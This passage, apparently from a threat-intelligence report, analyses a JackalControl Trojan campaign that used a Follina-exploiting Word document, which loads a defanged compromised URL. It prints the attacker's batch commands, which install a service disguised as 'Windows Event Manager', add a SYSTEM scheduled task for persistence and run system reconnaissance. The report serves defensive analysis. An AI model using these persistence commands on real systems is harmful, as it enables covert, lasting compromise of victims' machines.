 Malicious document – first page
The document was named “Gallery of Officers Who Have Received National And Foreign Awards.docx” and appears as a legitimate circular distributed to collect information about officers decorated by Pakistan’s government. It’s worth noting that the first description of the Follina vulnerability was published on May 29, 2022 and this document appears to have been modified on June 1, two days after publication, and was first detected on June 2.
The document was configured to load an external object from a legitimate and compromised website:
hxxps://www.pak-developers[.]net/internal_data/templates/template.html!

Code snippet used to load the remote resource
The remote webpage is a modified version of a public “Proof of Concept” to exploit the Follina vulnerability. The original PoC is available on GitHub. The attacker replaced the IT_BrowseForFile variable value with the following:

Code snippet used to exploit the Follina vulnerability
The decoded string is:

Decoded script
The exploit downloads and executes an executable file hosted on the legitimate compromised website, and stores it in the following path: “%Temp%\GoogleUpdateSetup.exe”. The downloaded file is the JackalControl malware.
In other cases, we do not have a real infection vector, but we observed a system compromised during lateral movements. Specifically, we observed the attacker using the psexec utility to start a malicious batch script.





cmd /c "c:\windows\temp\install.bat > c:\windows\temp\output.txt"




1

cmd /c "c:\windows\temp\install.bat > c:\windows\temp\output.txt"




The batch script performs a variety of actions, such as installing Microsoft .Net Framework 4, infecting the system with the JackalControl Trojan, and collecting information about the system.





$temp\\dnf4.exe /q /norestart
tasklist
sc qc "WEvMngS"
sc stop "WEvMngS"
sc delete "WEvMngS"
sc create "WEvMngS" binpath= "\"$windir\WEvMngS.exe\" /1" displayname= "Windows
Event Manager" type= own start= auto"
sc description "WEvMngS" "Provides event-related methods that register routed
events."
sc start "WEvMngS"
schtasks /delete /f /tn "\Microsoft\Windows\Diagnosis\Event Manager"
schtasks /create /f /tn "\Microsoft\Windows\Diagnosis\Event Manager" /xml
"$temp\\sch.xml" /ru "NT AUTHORITY\SYSTEM"
sc qc "WEvMngS"
schtasks /query /v /fo list /tn "\Microsoft\Windows\Diagnosis\Event Manager"
tasklist
netstat -aon
ping -n 1 google.com
ipconfig /displaydns
netsh winhttp show proxy
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v
